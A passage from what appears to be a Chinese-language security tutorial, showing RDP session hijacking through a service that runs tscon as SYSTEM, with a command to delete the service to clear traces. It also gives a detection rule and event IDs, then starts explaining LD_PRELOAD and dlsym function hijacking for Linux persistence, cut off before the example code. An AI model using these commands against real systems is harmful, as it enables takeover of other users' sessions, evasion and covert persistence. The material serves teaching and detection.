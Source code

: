 原理为使用sc命令实现执行SYSTEM权限的命令

    query user            #查看当前存在的会话
    sc create huahua binPath= "tscon 2 /dest:rdp-tcp#0"
    sc start huahua
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202055929.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202100506.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    sc delete huahua           #清除痕迹
    
        

**威胁检测**

进程特征

通过tscon.exe实现RDP劫持的前提为执行tscon.exe的用户权限为SYSTEM，可以通过检测新创建的tscon.exe进程的User是否为SYSTEM来判断是否发生了可疑的RDP劫持。

    Image contains "tscon.exe" AND USER contains "NT AUTHORITY\\SYSTEM"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202127745.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
当使用rdp会话劫持切换用户时安全日志会出现4778、4779两条安全日志-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201006202138560.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
参考文章：

    https://www.freebuf.com/articles/network/221199.html
    
        

* * *

#### 7.2.8 Linux权限维持之LD\_PRELOAD

**LD\_PRELOAD**

Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD\_PRELOAD环境变量和默认配置文件`/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD\_PRELOAD环境变量和`/etc/ld.so.preload`配置文件中指定的动态链接库依然会被装载,因为它们的优先级比LD\_LIBRARY\_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

通过LD\_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

**dlsym**

dlsym是一个计算机函数，功能是根据动态链接库操作句柄与符号，返回符号对应的地址，不但可以获取函数地址，也可以获取变量地址。

dlsym定义在Linux操作系统中的dlfcn.h中，函数原型如下：

    void * dlsym(void * handle,const char * symbol)
    
        

    handle：由dlopen打开动态链接库后返回的指针；
    symbol：要求获取的函数或全局变量的名称。
    返回值：void * 指向函数的地址，供调用使用。
    
        

**劫持示例代码：**
